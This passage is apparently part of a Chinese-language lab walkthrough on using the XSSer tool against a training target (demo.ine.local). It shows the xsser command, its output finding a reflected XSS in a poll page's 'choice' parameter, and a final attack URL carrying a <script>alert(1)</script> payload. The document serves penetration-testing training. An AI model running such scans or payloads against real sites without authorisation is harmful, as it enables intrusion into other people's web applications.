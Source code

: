 ```
xsser --url "http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=d&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"
```

```
===========================================================================
[*] List of XSS injections:
===========================================================================

-> CONGRATULATIONS: You have found: [ 1 ] possible XSS vector! ;-)

---------------------

[+] Target: http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=d&user-poll-php-submit-button=Submit+Vote
[+] Vector: [ choice ]
[!] Method: URL
[*] Hash: 31b2f1af773352c09af684b128d226b0
[*] Payload: http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=%22%3E31b2f1af773352c09af684b128d226b0&initials=d&user-poll-php-submit-button=Submit+Vote
[!] Vulnerable: [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]
[*] Final Attack: http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&initials=d&user-poll-php-submit-button=Submit+Vote
[!] Status: XSS FOUND! [WITHOUT --reverse-check VALIDATION!] 
 -------------------------------------------------- 

```

第21步：打开Final Attack链接，在火狐浏览器中触发XSS漏洞。

网址

```
http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&initials=d&user-poll-php-submit-button=Submit+Vote
```

这就是我们可以使用 XSSer 执行 XSS 攻击的方式！